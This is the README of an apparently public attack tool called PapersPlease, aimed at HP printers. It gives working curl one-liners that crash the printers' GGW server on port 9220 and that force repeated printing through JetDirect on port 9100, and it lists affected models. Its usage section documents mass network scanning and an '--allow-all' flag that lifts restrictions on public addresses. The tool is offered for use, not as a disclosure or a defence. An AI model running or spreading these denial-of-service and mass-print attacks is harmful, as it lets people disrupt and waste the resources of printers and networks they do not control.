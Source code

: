 
<div align="center">

<img src="./Assets/Papers_Please_Logo.png" width="20%" />
<br><br>
</div>

## Description

PapersPlease is an exploit that allows an attacker to perform a remote **Denial of Service** against an HP printer by crashing the internal GGW server. Additionally, PapersPlease is capable of **mass printing** documents from one or more printers on a network.

## How It Works

The **Denial of Service** exploit is as follows:
<br><br>
`curl [IP]:9220 -X 'open 99999999'`
<br><br>
Whats happening here is we are telling the internal GGW server to retrieve the process name running on index number 99999999. However upon receiving the request, the GGW server will instantly crash.
At this time it is unknown exactly why the GGW server crashes when receiving such a request as it is well within range of the allowed index number length which is any number <= 19 digits. In addition, any index number 8 or 9 digits in length will cause the GGW server to crash.

The **mass-print** exploit is as follows: 
<br><br>
`curl [IP]:9100 -m 1 -X 'Foo Bar'`
<br><br>
When abusing the JetDirect protocol, PapersPlease will connect to port 9100 on the remote host, then immediately disconnect. Which in some cases causes a document to be printed. With this exploit an attacker can print hundreds of copies from any vulnerable printer, wasting paper and ink. 

## Known Affected Models
| Model | DoS | Mass Print | GGW Version |
| :---:  | :---: | :---: | :---: |
| HP Envy 7640 |  True  |  False  |  Version: 1.0  |
| HP OfficeJet Pro 6978 |  True  |  True  |  Version: 1.0  |

**NOTE**:<br>
While the above list provides known exploitable models, these do not need to be known prior to attacking.

## Required Software

Android users will need to install <a href="https://termux.com/">Termux</a> from the <a href="https://play.google.com/store/apps/details?id=com.termux">Google Play Store</a>.<br>
Termux is only available for **Android 5.0 and later**.

| Package | Version | Platform |
| :---:   | :---:   | :---:    |
| Netcat-openbsd |  1.105-7ubuntu1  |  x86-64  |
| Grep (GNU) |  2.25  |  x86-64  |
| Sed (GNU) |  4.2.2  |  x86-64  |
| Busybox |  1.30.1  |  Android  |
| Iproute2 |  4.3.0  |  x86-64  |
| Parallel | 20161222 (x86-64) \| 20180222 (Android) |  Both  |
| Curl |  7.47.0-1ubuntu2.12  |  x86-64  |
| Bc |  1.06.95 (x86-64) \| 1.07.1 (Android)  |  Both  |

**NOTE**:<br>
Exact software versions are not required. They are only present as a reference for debugging purposes. 

## How To Use

As PapersPlease can run without flags, it is quick and simple to use. You can specify a **network range** with the `--network` flag or a **single host** with the `--target` flag. You can **optimize** PapersPlease through the `--jobs`, `--proc`, and `--slots` flags. Optimizations are active by default with values of: 0, 1, and 252 respectively. By default or when passing the `--network` flag, PapersPlease will automatically scan for printers. Automatic scanning can be disabled with the `--no-scan` flag. Additionally PapersPlease can **mass print** by passing the `--papyrus` flag, which can be used with either `--network` or `--target`. Finally, to **disable all address restrictions**, pass the `--allow-all` flag. By specifying said flag all public and private IP addresses will be allowed in addition to all CIDR prefixes less-than or equal to 30.

## Usage

```
./PapersPlease.sh [OPTION]
OPTION:			    DESCRIPTION:
-t, --target={IP}	    Specify a specific
			    target rather than
		     	    all addresses on
			    the network.

-n, --network={IP/CIDR}     Manually specify the
			    network address for
			    the current network
			    you are on.

--papyrus={N}	    	    Number of jobs to
			    send to the printer
			    this should cause
			    the printer to print
			    N number of pages.

-i, --interval={N}  	    The interval before
			    another job is sent
			    to the printer. Where
			    N can be a decimal
			    i.e. 0.1 or a whole
			    number. The default
			    interval is 1.

-j, --jobs={-N|+N|N%|N}     Number of jobs to
			    run. Passes value
			    to parallel.
			    Defaults to 0.

-p, --proc={-N|+N|N%|N}	    Define the maximum
			    N of processes that
			    can be active at a
			    time. Defaults to
			    1.

-s, --slots={-N|+N|N%|N}    The amount of
			    'slots' available
			    to be used by
			    parallel for jobs.
			    Default is 252.

-P, --port={PORT} 	    Specify a specific 
			    port. Useful for 
			    port-forwarded
			    hosts. Port number 
			    is set automatically 
			    based on the attack
			    being preformed.
			    PORT can be any
			    number ranging
			    from 1 to 65535. 

-a, --allow-all		    All address ranges 
			    are allowed. BE CAREFUL 
			    in this mode as it
			    permits scanning of
			    ANY address without
			    restriction.

--no-scan		    Disables the automatic
			    printer discovery scan.
			    By disabling this function
			    the attacker might not
			    know how many hosts were
			    successfully brought
			    down.

--no-check		    Will skip dependency
                            checking.

-q, --quiet		    Suppress output to
			    terminal. Only the
			    progress bar from
			    parallel will be
			    printed to the
			    terminal in this
			    mode.

-v, --version		    Print version
			    information
			    then exit.

-h, --help		    Print help
			    dialog then
			    exit.
```
